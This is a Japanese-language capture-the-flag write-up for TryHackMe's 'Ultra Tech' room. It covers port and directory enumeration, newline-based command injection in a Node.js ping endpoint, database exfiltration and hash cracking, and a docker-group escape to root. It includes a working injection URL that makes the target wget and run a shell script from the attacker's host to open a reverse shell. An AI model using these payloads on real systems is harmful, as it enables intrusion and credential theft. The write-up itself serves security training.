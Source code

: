 # Ultra Tech CTF

https://tryhackme.com/room/ultratech1

## Enumeration

```shell
TARGET=10.201.50.71
sudo bash -c "echo $TARGET   ultratech.thm >> /etc/hosts"
```

### ポートスキャン

```sh
root@ip-10-201-6-27:~# nmap -sS -p- $TARGET

PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
```

```sh
nmap -sV -p21,22,8081,31331 $TARGET

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

### ディレクトリ列挙

2つのエンドポイントを発見。

```sh
dirb http://$TARGET:8081

---- Scanning URL: http://10.201.50.71:8081/ ----
+ http://10.201.50.71:8081/auth (CODE:200|SIZE:39)                                                                                                                      
+ http://10.201.50.71:8081/ping (CODE:500|SIZE:1094) 
```

### /auth

login, password パラメータを指定することが分かる。

```
You must specify a login and a password
```

### /ping

コールスタックが露出している。

```
TypeError: Cannot read property 'replace' of undefined
    at app.get (/home/www/api/index.js:45:29)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/api/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)
    at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)
    at /home/www/api/node_modules/cors/lib/index.js:224:17
```

## データベース

問題文からデータベースファイルが存在することが分かる。  
ヒントから、カギはpingのエラー内容と思われる。

pingなのでおそらくIPアドレスなどがパラメータとして必要で、それがundefinedなので replace 呼び出しによりエラーが出ているのではないかと想定。

```js
addr.replace('from','to');
```

URLパラメータかJSONか分からないが、まずURLパラメータをファジングする。

```sh
$ ffuf -u 'http://ultratech.thm:8081/ping?FUZZ=10.11.146.32' -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fc 500         

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://ultratech.thm:8081/ping?FUZZ=10.11.146.32
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

ip                      [Status: 200, Size: 267, Words: 31, Lines: 7, Duration: 810ms]
:: Progress: [6453/6453] :: Job [1/1] :: 108 req/sec :: Duration: [0:00:59] :: Errors: 0 ::
```

URLパラメータとして ip を渡せばよいことが分かった。

http://ultratech.thm:8081/ping?ip=10.11.146.32;id でコマンドインジェクションを試すと、次のエラー。replaceでセミコロンを削除されていると思われる。

```
ping: 10.11.146.32id: Name or service not known
```

いろいろ試した結果、`http://ultratech.thm:8081/ping?ip=10.11.146.32%0Aid` のように %0A を使うと成功した。

```
PING 10.11.146.32 (10.11.146.32) 56(84) bytes of data. 64 bytes from 10.11.146.32: icmp_seq=1 ttl=61 time=383 ms --- 10.11.146.32 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 383.190/383.190/383.190/0.000 ms uid=1002(www) gid=1002(www) groups=1002(www)`
```

ls -al でDBファイル名判明。

```
PING 10.11.146.32 (10.11.146.32) 56(84) bytes of data. 64 bytes from 10.11.146.32: icmp_seq=1 ttl=61 time=410 ms --- 10.11.146.32 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 410.536/410.536/410.536/0.000 ms total 76 drwxr-xr-x 3 www www 4096 Mar 22 2019 . drwxr-xr-x 5 www www 4096 Mar 22 2019 .. -rw-r--r-- 1 www www 1750 Mar 22 2019 index.js drwxrwxr-x 163 www www 4096 Mar 22 2019 node_modules -rw-r--r-- 1 www www 370 Mar 22 2019 package.json -rw-r--r-- 1 www www 42702 Mar 22 2019 package-lock.json -rw-rw-r-- 1 www www 103 Mar 22 2019 start.sh -rw-r--r-- 1 www www 8192 Mar 22 2019 [REDACTED]
```

base64コマンドを使ってDBファイルを出力し、kali上でデコードして復元。

```sh
$ file ./[REDACTED]
./utech.db.sqlite: SQLite 3.x database, last written using SQLite version 3026000, file counter 3, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 3
```

sqliteブラウザで開き、2ユーザーのパスワードハッシュを取得。どちらも hashcatでクラックできた。

## リバースシェル

shell.sh をHTTPホストし、実行する。

`http://ultratech.thm:8081/ping?ip=10.11.146.32%0Awget%20http://10.11.146.32:8000/shell.sh%0Achmod%20777%20shell.sh%0A./shell.sh`

```sh
$ nc -nlvp 8888 
listening on [any] 8888 ...
connect to [10.11.146.32] from (UNKNOWN) [10.201.50.71] 57348
sh: 0: can't access tty; job control turned off
$ id
uid=1002(www) gid=1002(www) groups=1002(www)
```

クラックしたパスワードを使い、r00t ユーザーになれる。

## 権限昇格

dockerグループに入っている。

```sh
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

イメージ一覧でbash というイメージを発見し、それを利用してエスケープ。

```sh
r00t@ultratech-prod:~$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        6 years ago         15.8MB

r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

/root のプライベートメモ。

```sh
# cat /root/private.txt
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful
```

シークレットSSHキー。

```sh
# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
[REDACTED]
```

## 振り返り

- パラメータの発見からコマンドインジェクションは、問題文の誘導のおかげもあったが筋道立った思考ができて良かった。
- 権限昇格については、dockerっぽくない環境だったのでなかなか気づきにくかった。
